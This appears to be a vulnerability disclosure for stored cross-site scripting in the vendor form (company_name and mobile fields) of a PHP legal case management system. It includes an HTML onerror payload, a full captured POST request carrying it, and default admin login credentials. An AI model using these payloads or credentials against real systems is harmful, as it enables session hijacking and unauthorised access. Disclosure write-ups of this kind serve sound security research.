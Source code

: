 ## Legal Case Management System

## XSS on `/admin/vendor`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/legal-case-management-system/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/admin/login
superadmin@gmail.com
12345678Ab@
```

### Affected Page:

```
/admin/vendor
```

The parameter `company_name` /`mobile` are being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

### Proof of Concept:

Payload:

```
<img src=1 onerror="alert(document.cookie)">
```

Burp Request:

```
POST /admin/vendor HTTP/1.1
Host: 192.168.150.131
Content-Length: 1446
Cache-Control: max-age=0
Origin: http://192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9NEAJrBTMjHjeLVO
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/admin/vendor/create
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF-TOKEN=eyJpdiI6IlJxNlVNMmpRQitYd3JQcndSRFFXUHc9PSIsInZhbHVlIjoiWFl4R2M2ZnJyVWhKd0pHNFkrd01PbDgxTmVIckJ6UnR6YTRKcU55Y2RpMER3WjlLT0ttd015OXhyOTFORkZ1eiIsIm1hYyI6ImIwZWE1ODUzMjI3OGFkZThhMWVjOGMyMTBiYmM0MjA2OGFkMDBlMTQ0ODEwN2Q2Njg4M2RkYjk0MTFjYTk0NjQifQ%3D%3D; test_session=eyJpdiI6IjNHMDRja0trZWp6ZWlGZ09tUnkrTFE9PSIsInZhbHVlIjoiWVJLS1BQSHg2Qmt5TW13dXVqcEY2ZHdJeGtqWFwvVjlKRHFDOEVzT1ZjTlwvdFJDWUh0NVJiQkYxUTl2UVVVZmtmIiwibWFjIjoiNWFlNGVlM2Q5NjFkNzYxYWU4ZjlkMjIzOGM3OWIzZGVmNTFlZTk5NTc4M2I5MTljOWEwZDA4NWI3ZGZiZTNlNSJ9
Connection: close

------WebKitFormBoundary9NEAJrBTMjHjeLVO
Content-Disposition: form-data; name="_token"

ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
------WebKitFormBoundary9NEAJrBTMjHjeLVO
Content-Disposition: form-data; name="company_name"

<img src=1 onerror="alert(document.cookie)">
------WebKitFormBoundary9NEAJrBTMjHjeLVO
Content-Disposition: form-data; name="f_name"

2
------WebKitFormBoundary9NEAJrBTMjHjeLVO
Content-Disposition: form-data; name="l_name"

3
------WebKitFormBoundary9NEAJrBTMjHjeLVO
Content-Disposition: form-data; name="email"

4354@qq.com
------WebKitFormBoundary9NEAJrBTMjHjeLVO
Content-Disposition: form-data; name="mobile"

<img src=1 onerror="alert(document.cookie)">
------WebKitFormBoundary9NEAJrBTMjHjeLVO
Content-Disposition: form-data; name="alternate_no"

1234567890
------WebKitFormBoundary9NEAJrBTMjHjeLVO
Content-Disposition: form-data; name="address"

235 17th Street Southeast
------WebKitFormBoundary9NEAJrBTMjHjeLVO
Content-Disposition: form-data; name="country"

4
------WebKitFormBoundary9NEAJrBTMjHjeLVO
Content-Disposition: form-data; name="state"

165
------WebKitFormBoundary9NEAJrBTMjHjeLVO
Content-Disposition: form-data; name="city_id"

6433
------WebKitFormBoundary9NEAJrBTMjHjeLVO
Content-Disposition: form-data; name="gst"

1
------WebKitFormBoundary9NEAJrBTMjHjeLVO
Content-Disposition: form-data; name="pan"

2
------WebKitFormBoundary9NEAJrBTMjHjeLVO--

```

### Screenshot

![image-20240509195328044](./screenshot/image-20240509195328044.png)
